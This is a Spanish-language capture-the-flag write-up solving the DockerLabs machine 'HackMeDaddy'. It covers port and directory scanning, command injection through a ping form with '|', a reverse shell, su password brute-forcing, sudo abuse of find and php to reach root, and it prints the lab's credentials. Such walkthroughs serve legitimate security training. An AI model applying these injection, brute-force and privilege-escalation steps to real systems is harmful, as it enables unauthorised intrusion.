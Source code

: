 # HackMeDaddy

Hoy maquina HackMeDaddy de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![Dock](./images/HackMeDaddy/imagenes/Dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 19:21 -03
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 05:48:9d:f6:29:e1:dd:c4:f6:18:87:ff:13:15:5a:80 (ECDSA)
|_  256 0a:3d:0d:c3:fe:4e:57:8a:de:1f:5f:3c:8e:92:e9:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackMeDaddy - Hacking \xC3\x89tico
| http-robots.txt: 3 disallowed entries 
|_/FLAG.txt /joomla/* /secret/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

Como vemos no hay nada interesante, solo esta abierto el puerto 22 y 80 pero nada interesante.

#### PUERTO 80:

![80](./images/HackMeDaddy/imagenes/80.png)

En un principio no hay nada interesante, por lo que haremos un poco de fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,sh,py,js,elf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7036]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/info.txt             (Status: 200) [Size: 123]
/flag.txt             (Status: 200) [Size: 455]
/robots.txt           (Status: 200) [Size: 691]
Progress: 135528 / 1764488 (7.68%)
[!] Keyboard interrupt detected, terminating.
===============================================================
Finished
===============================================================
```

Lo único interesante es el archivo `info.txt` que nos habla de un `README.txt` y de un usuario llamado "Eliot", por lo que si vemos un poco la página principal en un momento se ejecuta un comando que dice "cat README.txt" y tiene esto:

```abap
d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing root port_scan firewall backdoor
```

Entonces probando si existe en el servidor vemos que si existe la carpeta `d05notfound` y contiene esto: ![d05notfound](./images/HackMeDaddy/imagenes/d05notfound.png)

Pero lo único importante es que al final dice que se puede hacer un "ping". Ahora abriremos el burpsuite y capturamos la peticion al poner `-c 1 google.com`, damos click derecho a la petición y damos click izquierdo en donde dice "Send To Repeater". Ahora vamos al repeater y le damos al "send" y en response ponemos "Raw", ahora, si bajamos vemos que si se ejecuta el ping y nos muestra esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.841/101.841/101.841/0.000 ms
```

como vemos, solo mando 1 porque pusimos "-c 1", por lo que tecnicamente ejecuta el comando directamente con "ping $INPUT", por lo que teniendo en cuenta eso podriamos intentar poner un ";" o "|" con otro comando como por ejemplo `ls -la`. Al presionar send vemos que el que funciona es "|" y nos devuelve esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 102.012/102.012/102.012/0.000 ms
</pre><h2>Resultado del Comando:</h2><pre>total 12
drwxr-xr-x 1 root root   30 Aug 13 14:42 .
drwxr-xr-x 1 root root   94 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Vemos que podemos ejecutar comandos remotamente con el signo "|".

## INTRUSION

Ahora que podemos ejecutar comandos vamos a la pagina de [revshells](https://www.revshells.com) y buscamos el de `python3 #2`, escuchamos con netcat en el puerto que elegimos y presionamos el send. _Ya estamos dentro_

#### TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty y que no se nos cierre el terminal al persionar `ctrl+C` tenemos que ejecutar esta serie de comandos apenas entremos:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg #damos al enter y ponemos reset xterm y enter
export TERM=xterm && export SHELL=bash
```

Una ve hecho esto ya no se nos cerrará la terminal.

## ESCALADA DE PRIVILEGIOS

### www-data

Siendo el usuario "www-data" iremos a la home y veremos que podemos leer la carpeta "e1i0t". Entramos y luego a la carpeta "documents"; estando ahi vemos dos archivos, `agenda.txt agenda_passwords.txt`, que al parecer ambos son una wordlist. Ahora hacemos un wget dentro de la carpeta `/tmp` al script [Sudo\_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y lo ejecutamos de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh e1i0t /home/e1i0t/documents/agenda.txt
```

Esto nos encuentra la contraseña del usuario `e1i0t` y escalamos con `su e1i0t` o directamente nos conectamos por ssh.

### e1i0t

Ahora ejecutamos `sudo -l` y vemos que podemos ejecutar el binario `find` como el usuario "an0n1mat0", por lo que buscamos en [GTFOBins](https://gtfobins.github.io/) y vemos que podemos escalar con:

```css
sudo -u an0n1mat0 find . -exec /bin/bash \; -quit
```

### an0n1mat0

Siendo el usuario "an0n1mat0" listamos lo que hay en nuestro directorio y vemos una nota que dice lo siguiente:

```ruby
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Si listamos en la raiz hay una carpeta llamada "secret", si la listamos vemos un archivo llamado "confidencial.txt" que tiene lo siguiente:

```css

There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Dice que hay un archivo llamado "passwords\_users.txt", por lo que lo buscamos con el siguiente comando:

```css
find / -name "passwords_users.txt" 2>/dev/null
```

```css
/usr/local/bin/passwords_users.txt
```

Ahora lo leemos con cat y nos dice esto:

```css
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Vamos a nuestra maquina local y ejecutamos lo siguiente:

```css
crunch 12 12 abcdefghijklmnopqrstuvwxyz -o wordlist -t @@yanonymous
```

nos lo copiamos y lo creamos como wordlist en la maquina victima y ahora ejecutamos el script que antes nos guardamos con wget de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh an0n1mat0 /tmp/wordlist.txt
```

```css
Contraseña encontrada para el usuario an0n1mat0: XXXXXXXXX
```

Ahora que tenemos la contraseña de "an0n1mat0" podemos hacer un `sudo -l` y vemos que podemos ejecutar `php` como root, entonces simplemente ponemos:

```css
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

_y ya seriamos root_

![root](./images/HackMeDaddy/imagenes/root.png)

Muy buena maquina, adiós...
